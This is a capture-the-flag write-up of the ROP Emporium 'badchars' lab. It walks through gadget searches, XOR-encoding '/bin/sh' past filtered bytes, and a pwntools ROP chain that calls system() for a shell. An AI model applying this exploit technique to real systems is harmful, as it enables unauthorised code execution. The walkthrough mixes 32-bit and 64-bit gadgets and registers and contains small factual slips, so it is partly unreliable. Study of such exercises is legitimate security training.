



# bacdchars

Link: https://ropemporium.com/challenge/badchars.html

--------------------------

First we check if the offset is different than in the previous challenge, "ret2win". It seems it is still 40, with 42 characters we see two "41" in RIP registry:


Then we must find the hexadecimal values of the bad characters the binary tells us that exist in it:

- b - 62
- i - 69
- c - 63
- / - 2f
- <space> - 20
- f - 66
- n - 6e
- s - 73


**bad_chars = ["62", "69", "63", "2f", "20", "66", "6e", "73"]**

Then we find we only have one with the structure "mov [reg], reg":

- 0x08048893 : mov dword ptr [edi], esi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep mov | grep "\["
```

We can control R12 and R13 with a single gadget:

- 0x08048899 : pop esi ; pop edi ; ret

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep pop | grep esi
```



Then we will look for the start address of .data, which is writable:

```
objdump -x badchars32
```



We will use EDI and ESI to write "/bin/sh" in memory, so our script needs these variables:

- **writewhatwhere =  0x08048893**

- **pop_esi_edi_ret = 0x08048899**

- **writable_memory = 0x0804a038**

```
mov [edi], esi

mov [0804a038], "/bin"

mov [0804a03c], "//sh"

```

The problem are the bad chars. We will try to use XOR instructions to change their values.

```
python /root/tools/ROPgadget/ROPgadget.py --binary badchars32 | grep xor
```

- 0x08048890 : xor byte ptr [ebx], cl ; ret

- 0x080484e7 : xor byte ptr [eax], al ; add byte ptr [eax], al ; jmp 0x8048474

- 0x08048ae3 : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret


The idea is that we can make a XOR operation between the register whose value the first register is pointing, so it will point to the writable address in memory where we write our payload (in this case encoded so it does not contain any bad characters) and the value of the second register, and the result is stored in the register pointed in the first register.

The easiest one of the three listed XOR gadgets is the first one (*xor byte ptr [ebx], cl ; ret*), and we can control easily ECX and EBX with a single pop-pop-ret gadget:

- 0x08048896 : pop ebx ; pop ecx ; ret

So the idea is:

```
xor [address of writable memory], encoded_payload

xor byte ptr [ebx], cl
```


For reference, the register *CL* is the lower 8 bytes of the register ECX ([source](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture)):




Then, we can send a encoded payload with the write-what-where gadget (without bad characters) and use the XOR gadget to "decode" the payload and get the original string (in this case, "/bin//sh").

To test this, first I sent 8 "a" characters and the error generated showed these characters:


Then, the first character will be XORed with the value 0x2:

```
rop += p64(pop_r14_r15_ret) + p64(0x2) + p64(writable_memory)
rop += p64(xor_r15_r14)
```

As we can see, it turns to "c" ("a" is 0x61 and "c" is 0x63, as 0x61 xor 0x2 = 0x63, this seems right):


We will send a 8-characters command:

```
//bin/sh -> hs/nib// -> 68732f6e69622f2f (Reversed and in hexadecimal)

68732f6e69622f2f xor 1212121212121212 = 7a613d7c7b703d3d

7a613d7c7b703d3d xor 1212121212121212 = 68732f6e69622f2f
```

The string "0x68732f6e69622f2f" does not contain any bad character, so we can send it and xor each byte with 0x12.

You can use these two website:

- XOR online - http://xor.pw/#

- ASCII to HEX - https://www.rapidtables.com/convert/number/ascii-to-hex.html


There are problems, in this case when we write in the address 0x601070 the 4th character of the string always gets an unexpected value:


When we change the value of the writable address to 0x601077 or 0x601077, we get a shell, but there are problems when we list files. Also, it does not work all the times:


The exploit until now:

```
from pwn import *
import sys

context(arch='amd64', os='linux')
binary_name = 'badchars'
p = process('./'+binary_name)
elf =  ELF(binary_name)
rop =  ROP(elf)


system = elf.sym["system"] 
pop_rdi =         (rop.find_gadget(['pop rdi', 'ret']))[0]
writewhatwhere  = 0x400b34
pop_r12_r13_ret = 0x400b3b

# .data start address
writable_memory = 0x601077

command = 0x7a613d7c7b703d3d  #string_to_hex("//bin/sh",byte_)
# 0x0000000000400b40 : pop r14 ; pop r15 ; ret
pop_r14_r15_ret = 0x400b40
# 0x0000000000400b30 : xor byte ptr [r15], r14b ; ret
xor_r15_r14 = 0x400b30

log.info("System address (.plt) - " + hex(system))
log.info("pop r12, pop r13, ret - " + hex(pop_r12_r13_ret))
log.info("pop r12, pop r13, ret - " + hex(pop_r14_r15_ret))
log.info("pop rdi, ret          - " + hex(pop_rdi))
log.info("Write-what-where      - " + hex(writewhatwhere))
log.info(".data section start   - " + hex(writable_memory))

rop =  "A"*40
rop += p64(pop_r12_r13_ret) + p64(command) + p64(writable_memory)
rop += p64(writewhatwhere)

for i in range(0,8):
	rop += p64(pop_r14_r15_ret) + p64(0x12) + p64(writable_memory+i)
	rop += p64(xor_r15_r14)

rop += p64(pop_rdi) + p64(writable_memory) + p64(system)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```